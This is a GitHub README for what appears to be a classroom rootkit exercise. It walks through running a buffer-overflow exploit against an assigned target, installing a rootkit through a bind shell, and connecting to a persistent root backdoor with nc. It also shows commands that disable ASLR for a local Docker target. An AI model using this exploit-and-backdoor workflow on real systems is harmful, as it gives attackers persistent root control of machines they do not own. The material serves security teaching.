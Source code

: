 # Rootkit Project

## Project Layout

`rootkit/` - source code for malicious rootkit library 
`dropper/` - exploit code
`target/` - target environment (run on target server)

## Overview

This readme details the process for setting up your test environment, and installing your malware using an exploit script.

In order to do install, you will run an exploit script which will exploit a buffer overflow in the target process.
This will open up a temporary bind shell into the process which the exploit script will use to install the rootkit on the target machine.

For a copy of these instructions see https://mw-demo.roryhemmings.com

## Exploitation

**Perform these steps in the *dropper/* directory**
They can be done on any linux machine with this repo downloaded.

Before doing so, message me with your rootkit tarball so I can host it for you on my static webserver.

This tarball can be created by running the following commands in the ***rootkit/* directory**

```sh
make
make dist
```

### Steps
1. Update the target number (this will be assigned to you) in exploit.py and backdoor.sh

exploit.py
```py
'''
Set the below target number to your assigned target number to automate the installation process
'''
target_num = #

# ---------------------------------
...
```

backdoor.sh
```sh
#!/bin/bash

TARGET_NUM=#
...
```

2. Run your exploit
```sh
python3 exploit.py
```

3. Open the backdoor
```sh
chmod +x backdoor.sh        # give exec perms if you haven't already
./backdoor.sh
```

This will prompt you for a password. You can leave it blank as the backdoor has already been opened.

4. Connect to your persistent backdoor (in another terminal window)
```sh
nc mw-demo.roryhemmings.com PORT
```

In this case, replace the `PORT` with your assigned backdoor port
After doing this you will have root access to the machine, and you can do whatever you want.

For example, if you go the link `http://mw-demo.roryhemmings.com:WEB_PORT` where `WEB_PORT` is your assigned web port, it will take you the static site hosted by your machine.

The static files served by this machine are in `/var/www/html` if you would like to modify them. However, keep in mind, you don't have access to any text editors, so you will likely have to use shell commands like echo.

## Target Environment Setup (optional)

Only perform these steps if you would like to test your rootkit locally.

Perform all these steps in the vm in the ***target/* directory**

1. install docker

```sh
curl -fsSL https://get.docker.com -o get-docker.sh
sh get-docker.sh

sudo apt install docker-compose
```

2. disable aslr

```sh
sudo echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

3. run `sudo make setup`

after doing so, you can run `sudo make shell` to open a shell in the docker container, or `sudo make clean` to take down the target environment.